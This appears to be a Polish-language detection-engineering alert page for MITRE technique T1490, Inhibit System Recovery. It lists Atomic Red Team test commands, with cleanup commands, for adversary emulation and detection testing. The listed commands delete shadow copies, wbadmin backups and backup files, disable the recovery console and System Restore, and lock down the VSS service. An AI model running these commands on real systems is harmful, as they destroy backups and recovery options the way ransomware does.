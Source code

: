 # Alert: Inhibit System Recovery

Opis scenariusza, podatności lub techniki.

---

**Technika:** T1490  
**Nazwa:** Inhibit System Recovery  
**Taktyki:** Impact  
**Status:** Pending  
**Autor:** Krzysztof K.  

---

<!--
Tactics: Impact
Technique ID: T1490
Technique Name: Inhibit System Recovery
Status: Pending
--> 


---

## Atomic Red Team – dostępne testy dla tej techniki

### Windows - Delete Volume Shadow Copies
**Opis:** 

<b>Polecenia testowe (cmd):</b>
```
vssadmin.exe delete shadows /all /quiet
```
[Pobierz test_1.cmd](../../scenarios/atomic_tests\T1490\Windows_-_Delete_Volume_Shadow_Copies/test_1.cmd)

### Windows - Delete Volume Shadow Copies via WMI
**Opis:** 

<b>Polecenia testowe (cmd):</b>
```
wmic.exe shadowcopy delete
```
[Pobierz test_1.cmd](../../scenarios/atomic_tests\T1490\Windows_-_Delete_Volume_Shadow_Copies_vi/test_1.cmd)

### Windows - wbadmin Delete Windows Backup Catalog
**Opis:** 

<b>Polecenia testowe (cmd):</b>
```
wbadmin delete catalog -quiet
```
[Pobierz test_1.cmd](../../scenarios/atomic_tests\T1490\Windows_-_wbadmin_Delete_Windows_Backup_/test_1.cmd)

### Windows - Disable Windows Recovery Console Repair
**Opis:** 

<b>Polecenia testowe (cmd):</b>
```
bcdedit.exe /set {default} bootstatuspolicy ignoreallfailures
bcdedit.exe /set {default} recoveryenabled no
```
[Pobierz test_1.cmd](../../scenarios/atomic_tests\T1490\Windows_-_Disable_Windows_Recovery_Conso/test_1.cmd)

<b>Polecenia cleanup (cmd):</b>
```
bcdedit.exe /set {default} bootstatuspolicy DisplayAllFailures >nul 2>&1
bcdedit.exe /set {default} recoveryenabled yes >nul 2>&1
```
[Pobierz cleanup_1.cmd](../../scenarios/atomic_tests\T1490\Windows_-_Disable_Windows_Recovery_Conso/cleanup_1.cmd)

### Windows - Delete Volume Shadow Copies via WMI with PowerShell
**Opis:** 

<b>Polecenia testowe (powershell):</b>
```
Get-WmiObject Win32_Shadowcopy | ForEach-Object {$_.Delete();}
```
[Pobierz test_1.ps1](../../scenarios/atomic_tests\T1490\Windows_-_Delete_Volume_Shadow_Copies_vi/test_1.ps1)

### Windows - Delete Backup Files
**Opis:** 

<b>Polecenia testowe (cmd):</b>
```
del /s /f /q c:\*.VHD c:\*.bac c:\*.bak c:\*.wbcat c:\*.bkf c:\Backup*.* c:\backup*.* c:\*.set c:\*.win c:\*.dsk
```
[Pobierz test_1.cmd](../../scenarios/atomic_tests\T1490\Windows_-_Delete_Backup_Files/test_1.cmd)

### Windows - wbadmin Delete systemstatebackup
**Opis:** 

<b>Polecenia testowe (cmd):</b>
```
wbadmin delete systemstatebackup -keepVersions:0
```
[Pobierz test_1.cmd](../../scenarios/atomic_tests\T1490\Windows_-_wbadmin_Delete_systemstateback/test_1.cmd)

### Windows - Disable the SR scheduled task
**Opis:** 

<b>Polecenia testowe (cmd):</b>
```
schtasks.exe /Change /TN "\Microsoft\Windows\SystemRestore\SR" /disable
```
[Pobierz test_1.cmd](../../scenarios/atomic_tests\T1490\Windows_-_Disable_the_SR_scheduled_task/test_1.cmd)

<b>Polecenia cleanup (cmd):</b>
```
schtasks.exe /Change /TN "\Microsoft\Windows\SystemRestore\SR" /enable >nul 2>&1
```
[Pobierz cleanup_1.cmd](../../scenarios/atomic_tests\T1490\Windows_-_Disable_the_SR_scheduled_task/cleanup_1.cmd)

### Disable System Restore Through Registry
**Opis:** 

<b>Polecenia testowe (cmd):</b>
```
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\SystemRestore" /v "DisableConfig" /t "REG_DWORD" /d "1" /f
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\SystemRestore" /v "DisableSR" /t "REG_DWORD" /d "1" /f
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SystemRestore" /v "DisableConfig" /t "REG_DWORD" /d "1" /f
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SystemRestore" /v "DisableSR" /t "REG_DWORD" /d "1" /f
```
[Pobierz test_1.cmd](../../scenarios/atomic_tests\T1490\Disable_System_Restore_Through_Registry/test_1.cmd)

<b>Polecenia cleanup (cmd):</b>
```
reg delete "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\SystemRestore" /v "DisableConfig" /f >nul 2>&1
reg delete "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\SystemRestore" /v "DisableSR" /f >nul 2>&1
reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SystemRestore" /v "DisableConfig" /f >nul 2>&1
reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SystemRestore" /v "DisableSR" /f >nul 2>&1
```
[Pobierz cleanup_1.cmd](../../scenarios/atomic_tests\T1490\Disable_System_Restore_Through_Registry/cleanup_1.cmd)

### Windows - vssadmin Resize Shadowstorage Volume
**Opis:** 

<b>Polecenia testowe (powershell):</b>
```
vssadmin resize shadowstorage /For=C: /On=C: /MaxSize=20%
```
[Pobierz test_1.ps1](../../scenarios/atomic_tests\T1490\Windows_-_vssadmin_Resize_Shadowstorage_/test_1.ps1)

### Modify VSS Service Permissions
**Opis:** 

<b>Polecenia testowe (cmd):</b>
```
sc sdset VSS D:(D;;GA;;;NU)(D;;GA;;;WD)(D;;GA;;;AN)S:(AU;FA;GA;;;WD)(AU;OIIOFA;GA;;;WD)
```
[Pobierz test_1.cmd](../../scenarios/atomic_tests\T1490\Modify_VSS_Service_Permissions/test_1.cmd)

<b>Polecenia cleanup (cmd):</b>
```
sc sdset VSS D:(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;LC;;;BU)S:(AU;FA;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;WD)
```
[Pobierz cleanup_1.cmd](../../scenarios/atomic_tests\T1490\Modify_VSS_Service_Permissions/cleanup_1.cmd)

[Zobacz testy na GitHubie](https://github.com/redcanaryco/atomic-red-team/tree/master/atomics/T1490)
